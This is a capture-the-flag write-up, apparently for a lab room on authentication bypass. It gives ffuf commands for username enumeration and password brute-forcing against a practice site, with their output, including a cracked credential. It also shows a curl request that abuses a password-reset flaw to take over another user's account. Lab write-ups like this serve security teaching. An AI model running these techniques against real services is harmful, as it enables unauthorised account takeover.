

# Authentication Bypass

## Task 2 | Username Enumeration

Check if you have the username worlist. My location is: /usr/share/wordlists/seclists/Usernames/Names/  
Test for usernames:
```shell
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MachineIp/customers/signup -mr "username already exists"
```

ffuf will start with this parameters:
```shell
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.224.52/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________
```

As result you will get:

```shell
admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 45ms]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 49ms]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 41ms]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 42ms]
:: Progress: [10177/10177] :: Job [1/1] :: 845 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

Write this usernames into a file.


## Task 3 | Brute Force

Bruteforce passwords with the usernames we found before:

```shell
ffuf -w pathToYourUsernameList.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MachineIp/customers/login -fc 200
```

ffuf will start with this parameters:
```shell
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.224.52/customers/login
 :: Wordlist         : W1: /home/michi/tmp-ctf/task1-usernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________
```

As result you will get:

```shell
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
    * W1: steve
    * W2: thunder

:: Progress: [404/404] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

## Task 4 | Logic Flaw

We create an Account on the "Acme IT Support" page (http://MachineIp/customers/signup):



Then we create password reset for robert:

```shell
curl 'http://MachineIp/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={acc-name}@customer.acmeitsupport.thm'
```

Now we have a Ticket in our Inbox with an Url to login as robert and get the flag in his inbox.


## Task 5 | Coockie Tampering

md5: https://www.dcode.fr/md5-hash  
base64 encode: https://www.base64encode.org/  
base64 decode: https://www.base64decode.org/  
